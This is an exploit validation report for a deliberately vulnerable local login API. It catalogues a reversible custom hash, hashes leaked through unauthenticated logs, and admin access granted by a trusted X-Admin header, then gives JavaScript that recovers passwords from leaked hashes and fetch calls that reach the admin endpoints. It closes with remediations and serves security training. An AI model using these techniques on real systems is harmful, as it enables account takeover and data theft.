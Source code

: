 # Exploit Validation – Vuln Login API

This document validates that the intentionally vulnerable login API is exploitable quickly and reliably, and provides step-by-step instructions another team can reproduce in under 5 minutes.

## Target overview
- **App**: Express server with Windows 95-style static frontend
- **Base URL**: `http://localhost:3000`
- **Notable routes**:
  - `POST /register` { email, password }
  - `POST /login` { email, password }
  - `GET /logs?limit=200` – returns plaintext server log tail (no auth)
  - `GET /admin/users` – requires client header `X-Admin: 1` (server blindly trusts it)
  - `GET /admin/docs` – same weak “admin” check
- **Admin heartbeat**: server auto-creates `admin@example.com` with password `win95!` (on boot) and performs `POST /login` as admin once per minute, producing log lines that include the admin’s hash.

## Vulnerability catalog
1) **Reversible, homegrown password “hash” (critical)**
   - Server algorithm (`src/hash/hash.js`):
     - Compute printable prefix by shifting each character of `(password + email)` by `-password.length` within ASCII 33–126.
     - Append a random 20-char alnum suffix: final hash = `prefix + suffix`.
   - Validation only checks `storedHash.startsWith(prefix)` and that suffix matches `[A-Za-z0-9]{20}`. The suffix is ignored for correctness; it’s just format.
   - Consequences:
     - Deterministic and reversible. Given the prefix and the email, the password can be recovered because the mapping is a fixed modular shift by a known length.
     - Password length is leaked: `len(prefix) - len(email)` (suffix is always 20).

2) **Sensitive secrets logged and publicly exposed (critical)**
   - Registration and login append lines containing the full `hash=...` to `logs/app.log`.
   - `GET /logs` serves the log tail to any client without auth.
   - Admin heartbeat forces an admin login line roughly every 60 seconds, ensuring frequent leakage of `admin`’s full hash.

3) **Insecure “admin” authorization (critical)**
   - Server trusts the header `X-Admin: 1` (or `?admin=1`) in `src/routes/admin.js` and does not verify a session/token.
   - Any client (or JS in the browser) can set this header and call `/admin/users` or `/admin/docs`.
   - The frontend UI disables buttons until admin login, but this is only client-side gating; it can be bypassed easily (see attacks below).

4) **Broad attack surface and weak defaults (high)**
   - Wide-open CORS, no rate limiting, verbose error stacks, no HTTPS, no CSRF protections, logs include request paths plus external joke fetches.

## Primary exploit paths (frontend-only)
A) Hash reversal from leaked admin hash → admin login
1. Open the app homepage. In the Start menu, open “View Logs”. Wait up to 60 seconds for an admin login line to appear, e.g.:
   - `LOGIN email=admin@example.com userFound=true hash=<HASH_VALUE> ok=true`
2. Compute values:
   - `full = <HASH_VALUE>`
   - `prefix = full.slice(0, -20)`
   - `passwordLength = prefix.length - 'admin@example.com'.length`
3. Recover the password from the prefix using the inverse of the printable shift. Paste this in the browser console:

```js
// Recover password from leaked prefix for a known email
function recoverPasswordFromPrefix(prefix, email) {
  const PRINTABLE_START = 33, PRINTABLE_END = 126;
  const RANGE = PRINTABLE_END - PRINTABLE_START + 1;
  // Derive password length from lengths
  const passwordLength = prefix.length - email.length;
  const codes = [];
  for (let i = 0; i < prefix.length; i += 1) {
    let orig = prefix.charCodeAt(i) + passwordLength; // inverse of (-passwordLength)
    while (orig > PRINTABLE_END) orig -= RANGE;
    while (orig < PRINTABLE_START) orig += RANGE;
    codes.push(orig);
  }
  const combined = String.fromCharCode(...codes);
  const recoveredPassword = combined.slice(0, passwordLength);
  const recoveredEmailPart = combined.slice(passwordLength);
  if (recoveredEmailPart !== email) console.warn('email mismatch, check inputs');
  return recoveredPassword;
}
// Example usage:
// const full = '...';
// const prefix = full.slice(0, -20);
// const pw = recoverPasswordFromPrefix(prefix, 'admin@example.com');
// console.log('Recovered password:', pw);
```

4. Use the recovered password to log in as `admin@example.com` via the Login window. Expected: HTTP 200 and `{ success: true }`.

Why this works fast and reliably
- Admin hash is guaranteed to appear (heartbeat) → success rate ~100% once logs are visible.
- The shift is deterministic and fully reversible with known email and derived password length.
- End-to-end time is typically well under 5 minutes (often under 1 minute).

B) Admin endpoints via header trust (even simpler)
1. Open DevTools console in the browser UI and force “admin session” on the client:

```js
sessionStorage.setItem('adminLoggedIn', '1');
```

2. Now call the endpoints directly from the page (or use the Admin Panel buttons):

```js
fetch('/admin/users', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
fetch('/admin/docs', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
```

This works from any machine that can reach the server because the server never verifies a real admin session; it only checks the header.

## Verification checklist
- **Exploit works**: yes (both A and B paths).
- **Success rate > 80%**: yes. With the admin heartbeat, success is ≈100% once logs are visible.
- **Works from a separate machine**: yes. CORS is open and `/logs`, `/admin/users`, `/admin/docs` are reachable; header trust works remotely.
- **Another team can reproduce**: yes; follow steps above. Everything is in-app, no special tooling required beyond a browser.
- **Time to exploit < 5 minutes**: yes (typically 1–3 minutes including waiting for a heartbeat log line).

## Full reproduction (recommended script)
1. Open `http://localhost:3000`.
2. Start → “View Logs” → wait for an admin `LOGIN ... hash=...` line.
3. Copy the hash value and in the browser console run the snippet under “Hash reversal”.
4. Log in as `admin@example.com` with the recovered password.
5. Optionally confirm data access: Start → Admin Panel → “Load Users” / “Load Docs”.

Alternative quick check (header trust)
- In DevTools console:

```js
fetch('/admin/users', { headers: { 'X-Admin': '1' } })
  .then(r => r.json()).then(console.log);
```

## Impact
- Admin account compromise with no rate limiting or MFA.
- Passwords are trivially recoverable from leaked hashes.
- All user accounts and hashes can be read via `/admin/users`.
- Logs leak operational details and sensitive values by design.

## Suggested remediations (for a real system)
- Replace custom hash with Argon2id/bcrypt/scrypt and per-user salts; store only non-reversible hashes.
- Validate entire hash (or, better, compute and compare real password hash) – never prefix-match.
- Remove sensitive data from logs; require auth for any log access; rotate and secure logs.
- Remove admin heartbeat and any backdoors. Use sessions or JWT with server-side validation, not client-provided headers.
- Enforce proper CORS, rate limiting, CSRF protections, error redaction, and HTTPS.

## Appendix: endpoint quick reference
- `POST /register` → `{ email, password }` ⇒ `{ email } | 4xx`
- `POST /login` → `{ email, password }` ⇒ `{ success: true } | 401`
- `GET /logs?limit=200` → plaintext logs
- `GET /admin/users` (requires `X-Admin: 1`) → `{ users: [...] }`
- `GET /admin/docs` (requires `X-Admin: 1`) → JSON docs
